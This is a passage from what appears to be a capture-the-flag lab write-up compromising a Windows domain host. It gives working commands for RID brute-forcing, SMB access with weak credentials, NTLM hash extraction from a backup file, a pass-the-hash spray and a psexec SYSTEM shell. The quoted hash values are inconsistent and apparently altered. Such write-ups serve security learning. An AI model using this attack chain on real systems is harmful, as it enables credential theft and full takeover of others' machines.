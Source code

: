 ```nxc smb 10.201.122.119 -u "guests" -p "" --rid-brute | awk '{split($6,a,"\\"); print a[2]}' > users.txt```

```Key Finding: The ybob317:ybob317 credentials were valid, indicating a user with potentially higher privileges than the guest account.```


# Step 5: Accessing the Users Share
With the ybob317 credentials, I accessed the Users share using impacket-smbclient:
impacket-smbclient 10.201.122.119/ybob317:ybob317@10.201.122.119


Why: impacket-smbclient allows interaction with SMB shares to explore file structures and retrieve files.
Actions:
Listed shares and confirmed Users was accessible.
Navigated to Users\ybob317\Desktop.
Found and read user.txt:



``` cd Users
 cd ybob317
 cd Desktop
 cat user.txt```


Output: ```The user.txt flag was 28189316c25dd3c0aa342d56d44d000d62a8.```


# Privilege Escalation
Step 6: Exploring the Backup Share
I noticed a backup share during earlier enumeration. Using the ybob317 credentials, I checked its contents but assumed it contained sensitive data (e.g., password dumps). The backup_extract.txt file was referenced in the file listing:
ls
backup_extract.txt


Action: I extracted NTLM hashes and usernames from backup_extract.txt:

```cat backup_extract.txt | awk -F\: '{ print $4}' > hashes.txt
cat backup_extract.txt | awk -F\: '{ print $1}' > users_hashes.txt```


Why: The backup_extract.txt file contained NTLM hashes in the format username:RID:LMhash:NThash:::, which could be used for pass-the-hash attacks.
Output:
users_hashes.txt: Contained usernames like WebServer$, DatabaseServer$, FileServer$, etc.
hashes.txt: Contained NTLM hashes, e.g., e41da7e79a4c76dbd9cf7sssd1cb325559 for FileServer$.




# Step 7: Pass-the-Hash Attack
Using the extracted hashes, I attempted a pass-the-hash attack with netexec:
nxc smb 10.201.122.119 -u users_hashes.txt -H hashes.txt --no-bruteforce


Why: Pass-the-hash uses NTLM hashes to authenticate without knowing the plaintext password.
Output: The FileServer$:e41da7e79a4c7sdbd9cf79d1cb325559 combination was successful, marked as (Pwn3d!), indicating administrative access.


Step 8: Gaining System Access
With the FileServer$ hash, I used impacket-psexec to gain a SYSTEM-level shell:
```impacket-psexec -hashes ":e41da7e79a4c76sbd9cf79d1cb325559" SOUPEDECODE.LOCAL/'Fileserver$'@10.201.122.119```
```